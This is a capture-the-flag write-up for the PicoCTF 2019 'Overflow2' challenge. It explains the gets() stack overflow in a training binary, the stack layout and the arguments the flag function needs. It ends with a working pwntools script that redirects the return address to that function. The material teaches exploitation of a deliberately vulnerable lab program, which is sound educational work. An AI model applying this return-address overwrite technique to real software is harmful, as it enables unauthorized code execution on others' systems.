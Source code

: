 # PicoCTF 2019 - Binary Exploit - Overflow2

Similar to Overflow1 except that we have to overwrite the return address and pass 2 arguments to the flag function

## The Vulnerability
It calls 'gets', a function that is known to be very dangerous (according to the documentation this function should never be used) 
The reason this function is dangerous is because of how it works: 'gets(char \*s) reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0'). 
No check for buffer overrun is performed, so it keeps reading input, even if this is larger than the amount of memory allocated for that string causing it to overwrite values from the stack.

## File info
```
[Sain@kali:~/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow2]$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=80e23ef08eb912fde3fc2f7ff2148e0e62960080, not stripped
[Sain@kali:~/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow2]$ checksec vuln
[*] '/home/sain/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Exploit

The exploit itself will work just like Overflow1 except that we have to find out where to put the arguments on the stack.

If we look at the disassembly of 'flag' we can see it gets the args from `ebp+0x8` & `ebp+0xc`

source c:
```c
if (arg1 != 0xDEADBEEF)
	return;
if (arg2 != 0xC0DED00D)
	return;
printf(buf);
```

disassembly:

![picture alt](https://i.gyazo.com/c00092c0725b3ddaf7c4e3d6de9a1959.png)

Okay now that we have an idea of where we have to go with the arguments let's get to the buffer overflow part

First of all we know our buffersize is 176
If we fill up that buffer with 'A' our stack looks something like this:

![picture alt](https://i.gyazo.com/dfb59969aa2e28b538845eac4f7f7f6c.png)

Our return address is again 12 bytes after our buffer `0x0804871c` -> main+103

and our flag is located at `0x080485e6`
so now we can do a small test to see the stack inside our flag function and see where we need to input the arguments

input here was: `python -c "'A' * 176 + 'B' * 12 + '\xe6\x85\x04\x08'"`

![picture alt](https://i.gyazo.com/81a7107a62a00f4d79a807e8e699b853.png)

As you can see there are 4 empty bytes in between our buffer and `ebp+0x8`
so we have to modify our input a bit by adding 4 more bytes to our payload; behind the flag address

and then finally after those 4 we can put in the values it compares to in the disassembly

first argument: `0xdeadbeef` 
and second argument: `0xc0ded00d`

now that we got all that down our exploit script looks something like:

```python
from pwn import *

buff = "A" * 176 + "B" * 12
buff2 = "C" * 4

flag_loc = util.packing.p32(0x080485e6)
flag_arg1 = util.packing.p32(0xdeadbeef)
flag_arg2 = util.packing.p32(0xc0ded00d)

payload = buff
payload += flag_loc
payload += buff2
payload += flag_arg1
payload += flag_arg2

online = True

if online:
	file_loc = "/problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln"
	p = process(file_loc)
else:
	p = process("./vuln")

p.recvuntil("Please enter your string: \n")
p.sendline(payload)
print p.recvall()
```
